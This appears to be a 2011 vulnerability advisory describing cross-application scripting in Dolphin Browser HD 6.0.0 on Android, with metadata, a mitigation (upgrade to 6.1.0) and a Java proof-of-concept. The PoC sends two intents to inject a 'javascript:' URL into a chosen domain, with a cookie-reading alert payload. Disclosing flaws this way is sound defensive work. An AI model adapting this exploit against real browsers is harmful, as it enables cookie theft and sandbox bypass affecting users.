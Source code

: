 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-09-20' 
alephid: ALEPH-2011006
date: '2011-09-20'
title: 'Dolphin Browser HD Cross-Application Scripting'
severity: high
product:
    - Dolphin Browser HD
vulnerable:
    - Version 6.0.0
mitigation: 
    - Install version 6.1.0 or later. 

references:
    - src: Android Browser XAS paper
      url: http://blog.watchfire.com/files/advisory-android-browser.pdf
 
---
```

A 3rd party application may exploit Dolphin Browser HD's URL loading process in order to inject JavaScript code into an arbitrary domain thus break Android's sandboxing. This can be done by sending two consecutive startActivity calls. The first call includes the attacked domain, and causes Dolphin Browser HD to load it, while the second call contains JavaScript code. the JavaScript URI will be opened under the current tab, i.e. the attacked domain.

## Proof-of-Concept ##
```java
public class CasExploit extends Activity
{
    static final String mPackage = "mobi.mgeek.TunnyBrowser";
    static final String mClass = "BrowserActivity";
    static final String mUrl = "http://target.domain/";
    static final String mJavascript = "alert(document.cookie)";
    static final int mSleep = 15000;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        startBrowserActivity(mUrl);
        
        try {
            Thread.sleep(mSleep);
        }
        
        catch (InterruptedException e) {}
        startBrowserActivity("javascript:" + mJavascript);
    }
    private void startBrowserActivity(String url) {
        Intent res = new Intent("android.intent.action.VIEW");
        res.setComponent(new ComponentName(mPackage,mPackage+"."+mClass));
        res.setData(Uri.parse(url));
        startActivity(res);
    }
}
```